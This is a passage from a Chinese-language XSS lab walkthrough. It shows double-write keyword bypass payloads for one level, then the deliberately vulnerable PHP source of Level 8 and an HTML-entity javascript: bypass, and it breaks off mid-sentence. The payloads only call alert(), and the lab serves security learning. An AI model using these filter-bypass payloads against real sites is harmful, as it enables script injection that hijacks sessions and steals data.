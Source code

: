 查看源码，发现了网站对传入的参数进行了小写转换，并且将一些特殊值替换成空，那么我们可以将其进行双写绕过

```
"><Scrscriptipt>alert(/xss/)</scriScriptpt>
```

```
"OonNclick="window.alert()
```

```
"><a hrhrefef=javascriscriptpt:onclick=alert()>xss</a>
```

```
"><a hrhrefef=javascriscriptpt:alert()>xss</a>
```



## Level 8：

```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);  //将script替换成scr_ipt
$str3=str_replace("on","o_n",$str2);   //将on替换成o_n
$str4=str_replace("src","sr_c",$str3);  
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);  //将双引号替换成&quot
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">  //将所获取到的字符串进行HTML编码
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>'; //通过href属性将￥str7变量输出到页面
?>
<center><img src=level8.jpg></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
```

后台做了三个措施：将特殊字符替换/将获取到的字符串进行HTML编码/通过href属性将处理后得值输出

网上的教程是将伪协议JavaScript：alert（1）中的script的一个字符进行HTML编码绕过防护

```
javascri&#x70;t:alert()
```

或者
